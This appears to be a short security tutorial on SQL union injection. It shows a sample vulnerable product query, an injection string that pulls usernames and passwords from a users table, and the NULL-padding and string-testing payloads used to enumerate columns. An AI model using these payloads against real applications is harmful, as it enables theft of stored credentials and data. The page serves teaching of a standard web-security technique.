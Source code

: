 # Introduction
Union injections allow you to retrieve information from other databases by injecting an additional `SELECT` query. The latter will append its results to the initial query.

Suppose you have an application which executes the following query:
```sql
SELECT name, description FROM products WHERE category = 'food';
```

If an attacker can inject into the query, they could send the following input:
```sql
' UNION SELECT username, password FROM users--
```

This would append the "username" and "password" columns of the `users` table respectively to the columns "name" and "description" from the original query.

# Determining the amount of columns returned
In a union injection, the number of columns in the injected query must match the number of columns in the original query. You can determine the number of columns by using the following query and keep appending `NULL`s until you observe a change in behaviour:
```sql
UNION SELECT NULL--
```

```sql
UNION SELECT NULL, NULL --
```

And so on.

# Searching for columns which return entries of a particular type
Once you have determined the amount of columns, you can look for columns that contain entries of a specific type. Suppose the original query has 3 columns.

```sql
UNION SELECT NULL, NULL, NULL --
```

You can start replacing the `NULL`s one by one with a random string of text enclosed in quotation marks until you observe a change in behaviour:

```sql
UNION SELECT 'random text', NULL, NULL --
```

```sql
UNION SELECT NULL, 'random text', NULL --
```

And so on.